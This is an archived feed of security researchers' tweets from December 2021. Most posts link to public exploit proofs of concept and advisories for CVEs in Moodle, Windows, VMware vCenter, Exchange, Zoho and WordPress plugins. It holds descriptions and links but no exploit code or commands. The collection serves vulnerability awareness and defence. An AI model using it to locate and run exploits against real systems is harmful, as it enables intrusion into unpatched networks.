GitHub - lanzt/CVE-2020-14321: Python script to exploit CVE-2020-14321 - Moodle… https://t.co/Y1cBsXgHos https://t.co/erFYo0ZWlr
</blockquote>

* https://github.com/lanzt/CVE-2020-14321
* https://t.me/hackgit/2297

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>1</code></td>
<td>Favorites: <code>0</code></td>
</tr></table>

---

# cnotin
**https://twitter.com/cnotin/status/1467791440176726022 _at 2021-12-06 09:42:04_**
<blockquote>
Privilege escalation from "DNSAdmins" to "Domain Admins" in Active Directory has finally gotten a reference: CVE-2021-40469 and a patch from Microsoft https://t.co/WIV25qm0QT
This attack path has been known since 4,5 years! https://t.co/mNAd2brM0z
https://t.co/yoxiIEqd4U
</blockquote>

* https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-40469
* https://adsecurity.org/?p=4064
* https://medium.com/@esnesenon/feature-not-bug-dnsadmin-to-dc-compromise-in-one-line-a0f779b8dc83

<table><tr>
<td>Quotes: <code>7</code></td>
<td>Replies: <code>4</code></td>
<td>Retweets: <code>69</code></td>
<td>Favorites: <code>183</code></td>
</tr></table>

---

# Securityblog
**https://twitter.com/Securityblog/status/1467775173239746561 _at 2021-12-06 08:37:25_**
<blockquote>
GitHub - fumamatar/NimNightmare: CVE-2021-1675 LPE PoC in Nim (PrintNightmare Local Privilege Escalation) https://t.co/2680QHV2Lb
</blockquote>

* https://github.com/fumamatar/NimNightmare

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>4</code></td>
<td>Favorites: <code>2</code></td>
</tr></table>

---

# Securityblog
**https://twitter.com/Securityblog/status/1467775140176052227 _at 2021-12-06 08:37:18_**
<blockquote>
GitHub - oxctdev/CVE-2021-38314: Unauthenticated Sensitive Information Disclosure (CVE-2021–38314). https://t.co/Z514931NUp
</blockquote>

* https://github.com/oxctdev/CVE-2021-38314

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>2</code></td>
<td>Favorites: <code>0</code></td>
</tr></table>

---

# cyb3rops
**https://twitter.com/cyb3rops/status/1467771166479769606 _at 2021-12-06 08:21:30_**
<blockquote>
Yet another RCE vulnerability in a @Zoho product reported as CVE-2021-44515

Could you please just publish the IOCs so that I don't have to reverse engineer your JAVA shit to get the information. Many thanks

https://t.co/hQS8wlGC02 https://t.co/2NyJqeaB42
</blockquote>

* https://thehackernews.com/2021/12/warning-yet-another-zoho-manageengine.html

<table><tr>
<td></td>
<td></td>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>3</code></td>
<td>Replies: <code>8</code></td>
<td>Retweets: <code>48</code></td>
<td>Favorites: <code>181</code></td>
</tr></table>

---

# campuscodi
**https://twitter.com/campuscodi/status/1467738826705674244 _at 2021-12-06 06:13:00_**
<blockquote>
Zoho warns of new zero-day vulnerability exploited in attacks

▶ CVE-2021-44515 -- impacing Zoho ManageEngine Desktop Central servers

https://t.co/XakJkPSyBl https://t.co/i4brbE979s
</blockquote>

* https://therecord.media/zoho-warns-of-new-zero-day-vulnerability-exploited-in-attacks/

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>4</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>36</code></td>
<td>Favorites: <code>78</code></td>
</tr></table>

---

# _sSUb__
**https://twitter.com/_sSUb__/status/1467544063553409026 _at 2021-12-05 17:19:05_**
<blockquote>
CVE-2021-41379 : Hackers Exploiting New Windows Installer Zero-Day Exploit in the Wild

https://t.co/VdX3yLPxpP

The proof-of-concept (PoC) exploit, dubbed "InstallerFileTakeOver.

https://t.co/mINj8QE0i9
</blockquote>

* https://thehackernews.com/2021/11/warning-hackers-exploiting-new-windows.html
* https://github.com/klinix5/InstallerFileTakeOver

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>3</code></td>
<td>Favorites: <code>10</code></td>
</tr></table>

---

# hack_git
**https://twitter.com/hack_git/status/1467368660255875072 _at 2021-12-05 05:42:05_**
<blockquote>
CVE-2021-38314

The Gutenberg Template Library &amp; Redux Framework plugin &lt;=4.2.11 for WordPress - Unauthenticated Sensitive Information Disclosure

https://t.co/rNgYJ9XLns

#exploit https://t.co/QhKiuaQsMd https://t.co/OF5pu98ZRU
</blockquote>

* https://github.com/oxctdev/CVE-2021-38314
* https://t.me/hackgit/2268

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>1</code></td>
<td>Favorites: <code>0</code></td>
</tr></table>

---

# theXSSrat
**https://twitter.com/theXSSrat/status/1467229741451206657 _at 2021-12-04 20:30:04_**
<blockquote>
Starting to like this tool more and more &lt;3 
https://t.co/LnR1D8voRL https://t.co/Cwj5lP9Ipv
</blockquote>

* https://github.com/wallarm/gotestwaf

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>56</code></td>
<td>Favorites: <code>216</code></td>
</tr></table>

---

# Securityblog
**https://twitter.com/Securityblog/status/1467213035513262085 _at 2021-12-04 19:23:41_**
<blockquote>
GitHub - oxctdev/CVE-2021-38314: Unauthenticated Sensitive Information Disclosure (CVE-2021–38314). https://t.co/Z514931NUp
</blockquote>

* https://github.com/oxctdev/CVE-2021-38314

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>2</code></td>
<td>Favorites: <code>4</code></td>
</tr></table>

---

# pdnuclei
**https://twitter.com/pdnuclei/status/1467153540850196480 _at 2021-12-04 15:27:17_**
<blockquote>
VMware vCenter Unauthenticated Full-Read SSRF / Local File Read

Template - https://t.co/vZokdNlawD

Reference - https://t.co/RnTHn4MKan

#hackwithautomation #security #appsec https://t.co/xjNC0nTl0G
</blockquote>

* https://github.com/projectdiscovery/nuclei-templates/blob/master/vulnerabilities/vmware/vmware-vcenter-ssrf.yaml
* https://github.com/l0ggg/VMware_vCenter

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>22</code></td>
<td>Favorites: <code>141</code></td>
</tr></table>

---

# campuscodi
**https://twitter.com/campuscodi/status/1467121257531404288 _at 2021-12-04 13:19:00_**
<blockquote>
Analysis for CVE-2021-34535, an RDP RCE patched in August

https://t.co/qtF2Sll8eA https://t.co/Ov9m8SYlhX
</blockquote>

* https://www.synack.com/blog/this-microsoft-windows-rce-vulnerability-gives-an-attacker-complete-control/

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>4</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>72</code></td>
<td>Favorites: <code>154</code></td>
</tr></table>

---

# ksg93rd
**https://twitter.com/ksg93rd/status/1467116528051142668 _at 2021-12-04 13:00:12_**
<blockquote>
#exploit
CVE-2021-42008:
Linux Kernel Vulnerability in NetApp Products
https://t.co/JPk5rvgiqd

2. A simple python PoC to exploit CVE-2021-26814 and gain RCE on Wazuh Manager (v.4.0.0-4.0.3) through the API service
https://t.co/oRh9Rtjp0W
</blockquote>

* https://syst3mfailure.io/sixpack-slab-out-of-bounds
* https://github.com/WickdDavid/CVE-2021-26814

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>1</code></td>
<td>Favorites: <code>1</code></td>
</tr></table>

---

# ksg93rd
**https://twitter.com/ksg93rd/status/1466876840837062661 _at 2021-12-03 21:07:46_**
<blockquote>
#exploit
1. CVE-2021-40865:
https://t.co/iZWWMsFP1N

2. CVE-2021-24084:
Windows MDM LPE
https://t.co/eGHRcogQfs
]-&gt; Micropatching Unpatched LPE in Mobile Device Management Service
https://t.co/uRDSJMdS7B
</blockquote>

* https://github.com/hktalent/CVE-2021-40865
* https://github.com/ohnonoyesyes/CVE-2021-24084
* https://blog.0patch.com/2021/11/micropatching-unpatched-local-privilege.html

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>1</code></td>
<td>Favorites: <code>0</code></td>
</tr></table>

---

# Junior_Baines
**https://twitter.com/Junior_Baines/status/1466857859782782977 _at 2021-12-03 19:52:21_**
<blockquote>
I gave the Windows LPE zero-day exploit InstallerFileTakeOver (aka variation on CVE-2021-41379) the @AttackerKb  treatment. I also wrote a cleaner (imo) and functional proof of concept.
https://t.co/E49cmwZAA2 
https://t.co/Na8JM4iTMx
</blockquote>

* https://github.com/jbaines-r7/shakeitoff
* https://attackerkb.com/topics/7LstI2clmF/cve-2021-41379/rapid7-analysis

<table><tr>
<td>Quotes: <code>3</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>69</code></td>
<td>Favorites: <code>160</code></td>
</tr></table>

---

# ptracesecurity
**https://twitter.com/ptracesecurity/status/1466736108293836805 _at 2021-12-03 11:48:33_**
<blockquote>
VMware vCenter earlier versions (7.0.2.00100) has unauthorized arbitrary file read + ssrf + xss vulnerability https://t.co/P17PHNbGsp  #Pentesting #VMware #CyberSecurity #Infosec https://t.co/ahg1nBm1Zg
</blockquote>

* https://github.com/l0ggg/VMware_vCenter

<table><tr>
<td></td>
<td></td>
<td></td>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>32</code></td>
<td>Favorites: <code>54</code></td>
</tr></table>

---

# OPOSEC
**https://twitter.com/OPOSEC/status/1466678598119608324 _at 2021-12-03 08:00:02_**
<blockquote>
Apache Superset pickle library code execution (CVE-2018-8021). https://t.co/BngvADxxx3 #Hack #252 (2018)
</blockquote>

* https://github.com/r3dxpl0it/Apache-Superset-Remote-Code-Execution-PoC-CVE-2018-8021

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>2</code></td>
<td>Favorites: <code>3</code></td>
</tr></table>

---

# hack_git
**https://twitter.com/hack_git/status/1466287727696134146 _at 2021-12-02 06:06:51_**
<blockquote>
VMware vCenter 7.0.2 unauth Arbitrary File Read + #SSRF + Reflected #XSS
https://t.co/u7ra9IdIOw

CVE-2021-30625: Google Chrome Blink setBaseAndExtent use after free vulnerability
https://t.co/C0u2Df6eSH https://t.co/whPlOyEaYW https://t.co/zYy3BbCyIf
</blockquote>

* https://github.com/l0ggg/VMware_vCenter
* https://talosintelligence.com/vulnerability_reports/TALOS-2021-1352
* https://t.me/hackgit/2241

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>2</code></td>
<td>Favorites: <code>0</code></td>
</tr></table>

---

# harshbothra_
**https://twitter.com/harshbothra_/status/1466261089520431111 _at 2021-12-02 04:21:00_**
<blockquote>
#Learn365 Day-236: Zero-Day Disclosure: Palo Alto Networks GlobalProtect VPN CVE-2021-3064

Blog: https://t.co/P54M40rZEP
</blockquote>

* https://www.randori.com/blog/cve-2021-3064/

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>6</code></td>
<td>Retweets: <code>15</code></td>
<td>Favorites: <code>64</code></td>
</tr></table>

---

# Dinosn
**https://twitter.com/Dinosn/status/1466157179757551623 _at 2021-12-01 21:28:06_**
<blockquote>
VMware vCenter earlier versions (7.0.2.00100) has unauthorized arbitrary file read + ssrf + xss vulnerability

https://t.co/z0OAWwLAEV
</blockquote>

* https://github.com/l0ggg/VMware_vCenter

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>29</code></td>
<td>Favorites: <code>48</code></td>
</tr></table>

---

# ksg93rd
**https://twitter.com/ksg93rd/status/1466143930123235335 _at 2021-12-01 20:35:27_**
<blockquote>
#exploit
CVE-2021-41379:
Windows installer LPE 0day
https://t.co/vljwOAIcOc
</blockquote>

* https://github.com/klinix5/InstallerFileTakeOver

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>1</code></td>
<td>Favorites: <code>0</code></td>
</tr></table>

---

# ksg93rd
**https://twitter.com/ksg93rd/status/1466143805770448898 _at 2021-12-01 20:34:57_**
<blockquote>
#exploit
1. CVE-2021-42321:
Exchange Post-Auth RCE
https://t.co/c5AGfEwOYx

2. CVE-2021-22053:
Spring Cloud Netflix Hystrix Dashboard
template resolution vulnerability
https://t.co/SRjSLZWdwy
</blockquote>

* https://gist.github.com/testanull/0188c1ae847f37a70fe536123d14f398
* https://github.com/SecCoder-Security-Lab/spring-cloud-netflix-hystrix-dashboard-cve-2021-22053

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>1</code></td>
<td>Favorites: <code>0</code></td>
</tr></table>

---

# fdlucifer11
**https://twitter.com/fdlucifer11/status/1465939778411503616 _at 2021-12-01 07:04:13_**
<blockquote>
https://t.co/QdWVQTGrTK exchange proxy attack chain exploit tool now avaliable on my github, this include proxylogon, proxyshell, proxyoracle , proxytoken and CVE-2021-42321(Exchange Deserialization RCE) will avaliable soon, most of the exploit is recoded with golang to speed up https://t.co/nTniUvlK9r
</blockquote>

* https://github.com/FDlucifer/Proxy-Attackchain

<table><tr>
<td></td>
<td></td>
<td></td>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>6</code></td>
<td>Favorites: <code>5</code></td>
</tr></table>

---

